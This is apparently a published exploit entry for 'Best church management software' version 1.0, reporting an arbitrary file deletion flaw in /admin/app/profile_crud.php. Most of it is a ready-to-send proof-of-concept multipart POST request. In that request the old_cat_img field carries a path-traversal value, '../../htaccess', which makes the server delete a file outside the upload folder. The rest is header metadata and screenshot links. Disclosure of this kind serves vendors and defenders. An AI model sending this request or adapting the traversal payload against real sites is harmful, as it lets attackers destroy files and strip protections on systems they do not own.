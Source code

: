 ### Exploit Title: Best church management software - Delete any file
### Date: 2025-02/11
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/17856/best-church-management-software-free-download-full-version.html
### Version: 1.0
### Tested on: windows10 + phpstudy

# 1./admin/app/profile_crud.php Parameter old_cat_img has Delete any file

### Delete any file POC #1

```
POST /admin/app/profile_crud.php HTTP/1.1
Host: 127.0.0.1:8001
Content-Length: 455
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypIjOCND3CuxXt7PO
Cache-Control: no-cache
Accept: */*
Origin: chrome-extension://coohjcphdfgbiolnekdpbcijmhambjff
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundarypIjOCND3CuxXt7PO
Content-Disposition: form-data; name="update"

1 
------WebKitFormBoundarypIjOCND3CuxXt7PO
Content-Disposition: form-data; name="image"; filename="1px.png"
Content-Type: image/png

PNG

IHDRµIDATxÚcd0IEND®B
------WebKitFormBoundarypIjOCND3CuxXt7PO
Content-Disposition: form-data; name="old_cat_img"

../../htaccess
------WebKitFormBoundarypIjOCND3CuxXt7PO--

```

### Delete any file
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1739252420705.jpg "Best church management software")

![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1739253340542.jpg "Best church management software")

![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1739253104064.jpg "Best church management software")

![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1739253107867.jpg "Best church management software")


